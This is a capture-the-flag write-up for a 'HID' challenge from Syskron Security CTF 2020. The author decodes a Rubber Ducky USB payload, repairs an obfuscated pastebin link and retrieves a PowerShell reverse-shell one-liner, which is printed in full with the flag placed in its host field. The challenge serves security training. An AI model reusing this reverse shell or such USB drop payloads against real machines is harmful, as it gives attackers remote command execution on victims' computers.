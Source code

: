 # HID

![Category](http://img.shields.io/badge/Category-Wednesday-orange?style=for-the-badge) ![Points](http://img.shields.io/badge/Points-300-brightgreen?style=for-the-badge)

![Tag](https://img.shields.io/badge/Tag-binary_analysis-blue?style=plastic)

## Details
***One of my colleagues found a USB stick in the parking lot in front of our company. Fortunately he handed it over directly to us . The drive contains an SD card with just one file. Maybe it's no normal USB flash drive?***


Firstly I started by going to "ducktoolkit.com" ![Image](https://github.com/CTSecUK/Syskron-Security-CTF-2020/blob/main/Write-ups/images/HID_ducky_decoder_url.png)

I chose the **Decode Payload** option ![Image](https://github.com/CTSecUK/Syskron-Security-CTF-2020/blob/main/Write-ups/images/HID_ducky_decoder.png)

I uploaded the file from my downloads folder [inject.bin] and then clicked **Decode** ![Image](https://github.com/CTSecUK/Syskron-Security-CTF-2020/blob/main/Write-ups/images/HID_ducky_decoder_upload.png)

Once it had uploaded and the page refreshed i chose the option to Download [duckycode.txt] ![Image](https://github.com/CTSecUK/Syskron-Security-CTF-2020/blob/main/Write-ups/images/HID_ducky_decoder_download.png)

I opened up the [duckycode.txt] in Pluma and scrolled through the code and found a download string to a pastebin which looked suspicious\
![Image](https://github.com/CTSecUK/Syskron-Security-CTF-2020/blob/main/Write-ups/images/HID_ducky_decoder_string.png)

I changed the incorrect character to look like a normal URL - https://pastebin.com/raw/YRD8jsvd and went to the website to see what was there.

![Image](https://github.com/CTSecUK/Syskron-Security-CTF-2020/blob/main/Write-ups/images/HID_ducky_decoder_404.png)

I received a 404 error.

I went back over the code and noticed more spelling mistakes or letters that were in the wrong place. Like the below:-

![Image](https://github.com/CTSecUK/Syskron-Security-CTF-2020/blob/main/Write-ups/images/HID_ducky_decoder_characters.png)

**Copz and yip** stood out to me so I modified the URL, swapping Y to Z and tried that URL in the address bar - https://pastebin.com/raw/ZRD8jsvd

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10syskronCTF{y0u_f0und_m3}",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
The flag was hidden in the hostname/IP-address field.

Flag: ***syskronCTF{y0u_f0und_m3}***
